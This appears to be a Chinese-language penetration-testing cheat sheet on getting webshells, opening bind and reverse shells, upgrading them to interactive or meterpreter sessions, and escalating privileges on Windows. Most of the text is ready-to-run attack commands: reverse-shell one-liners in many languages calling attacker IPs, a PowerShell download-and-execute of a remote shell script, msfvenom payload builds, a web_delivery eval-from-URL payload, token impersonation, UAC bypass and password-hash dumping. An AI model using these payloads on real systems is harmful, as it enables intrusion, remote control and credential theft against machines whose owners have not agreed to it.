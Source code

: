 shell
========================================

webshell获取常规方法
----------------------------------------

通过CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过CMS获取Webshell的思路通常分为两类： 一类是针对特定版本的具体漏洞进行利用，完成如远程执行命令、数据库注入等操作；另一类则是通过弱口令或者漏洞利用进后台管理界面，然后通过上传插件、修改模板文件等方式上传木马脚本。

通过非CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用文件上传
- 利用SQL注入

其他获取Webshell方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Phpmyadmin
- Tomcat
- Weblogic
- JBoss

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 


反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
	
- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
	php -r '$sock=fsockopen("172.16.100.105",4444);$descriptorspec = array(0 => $sock,1 => $sock,2 => $sock);$process = proc_open('/bin/sh', $descriptorspec, $pipes);proc_close($process);'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	server(vps)：nc -lvp 1567
	client：nc 172.31.100.7 1567 -e /bin/bash
	client：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	client：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

- msfvenom生成

::

	列举payload：msfvenom -l
	Binaries
		Linux：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
		Windows：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
		Mac：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
	Web Payloads
		php：msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
			cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
		asp：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
		jsp：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
		WAR：msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
	Scripting Payloads
		Python：msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
		Bash：msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
		Perl：msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
	Shellcode
		Linux Based Shellcode：msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
		Windows Based Shellcode ：msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
		Mac Based Shellcode：msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
	Handlers
		use exploit/multi/handler
		set PAYLOAD <Payload name>
		set LHOST <LHOST value>
		set LPORT <LPORT value>
		set ExitOnSession false
		exploit -j -z
		或
		nc -lvp port
	
shell升级为交互式shell
-----------------------------------------

- 半交互式shell
	+ Python pty模块
		::

			通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
			python -c "import pty;pty.spawn('/bin/bash')"
			可以运行su命令。
		
	+ socat
		::
		
			在kali（监听）：socat file:`tty`,raw,echo=0 tcp-listen:4444
			受害人：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
			如果没有安装socat。有独立的二进制文件可以从这个Github下载：
			https://github.com/andrew-d/static-binaries
			通过命令注入，可以将socat二进制文件下载到可写的目录，之后chmod，然后在一行中执行反向shell：
			wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; 
			chmod +x /tmp/socat; 
			/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color


shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 

meterpreter提权
-----------------------------------------
- 前提
	+ 生成木马
		``msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.11.2 lport=4444 -f exe -o /tmp/hack.exe``
		
		::
		
			默认为32位,如果靶机为64位需要更改为:wiondows/x64/meterpreter/reverse_tcp
			反弹到的监听端地址为172.16.11.2，监听端口为4444，文件输出格式为exe并保存到路径/tmp/hack.exe
	+ 执行监听
		::
		
			use exploit/multi/handler
			set payload windows/meterpreter/reverse_tcp
			set LHOST 172.16.11.2
			show options
			exploit
	+ 上传并执行木马
		此处假设我们通过一系列的渗透测试得到了目标机器的webshell，并上传生成的木马hack.exe，执行成功。
			
- getsystem提权
- exp提权
	::
	
		meterpreter > background //先后台运行会话[*] Backgrounding session 1…
		msf > use post/windows/escalate/ms10_073_kbdlayout
		msf > show options
		msf > set session 1 //设置要使用的会话
		msf post(ms10_073_kbdlayout) > exploit
		
		或直接用一下命令：
		meterpreter > run post/windows/escalate/ms10_073_kbdlayout
- 盗取令牌
	::
	
		meterpreter > use incognito //进入这个模块
		meterpreter > list_tokens –u //查看存在的令牌
		meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠
		注意：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有
		这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权
		限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。
- Bypassuac
	::
	
		msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
		msf > show options
		msf > set session 4
		msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权
- Hash
	``meterpreter > run post/windows/gather/smart_hashdump`` 


.. |shell1| image:: ../images/shell1.png